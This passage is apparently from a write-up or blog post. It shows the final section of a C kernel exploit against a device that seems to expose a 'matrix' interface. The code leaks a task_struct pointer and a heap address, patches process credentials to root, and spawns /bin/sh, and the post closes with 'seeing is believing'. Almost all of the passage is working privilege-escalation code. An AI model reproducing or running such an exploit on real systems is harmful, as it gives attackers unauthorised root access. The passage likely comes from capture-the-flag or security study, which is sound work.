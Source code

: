 ```c
	for (i=0, task_struct=0; i<8; i++)
		task_struct |= (uint64_t)matrix_get_pos(fd5,i,5)<<(i<<3);
	printf("task_struct = 0x%llx\n", task_struct);

	// leak heap address from fd2, and calculate address of fd3
	for (i=0, fd3_addr=0; i<8; i++)
		fd3_addr |= (uint64_t)matrix_get_pos(fd5,i,4)<<(i<<3);
	fd3_addr -= 0xc0;
	printf("fd3_addr = 0x%llx\n", fd3_addr);

	// now we can patch task_struct to give us root
	patch_creds(task_struct);
 
	// got shell
	setgid(0);
	setuid(0);
	system("/bin/sh");

 return EXIT_SUCCESS;
}
```

as always..

seeing is believing..
